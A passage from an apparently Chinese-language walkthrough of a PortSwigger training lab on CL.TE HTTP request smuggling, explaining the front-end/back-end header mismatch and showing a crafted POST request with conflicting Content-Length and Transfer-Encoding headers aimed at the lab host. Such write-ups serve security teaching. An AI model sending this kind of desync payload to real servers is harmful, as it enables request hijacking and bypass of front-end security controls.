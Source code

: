 前端服务器处理Content-Length标头并确定请求正文的长度为13个字节，直到SMUGGLED结束，这个请求被转发到后端服务器，后端服务器处理Transfer-Encoding头，因此将邮件正文视为使用分块编码，它处理第一个块，该块被声明为零长度，因此被视为终止请求，而后面的字节(走私的)未被处理，后端服务器将把这些视为序列中下一个请求的开始  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)  
解题过程：  
Step 1：访问以上链接并点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-578b39e56e898a777188cbe51c42d00d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154008-51abf38c-aa0b-1.png)  
Step 2：捕获数据包并构造一下请求报文

```plain
POST / HTTP/1.1
Host: 0af800e2048fe11a806ff35700f30086.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 6
Transfer-Encoding: chunked
Cookie: session=Z9jX1prJb6b6yIn5SbqiZY50uHHeECIX

0

G
```

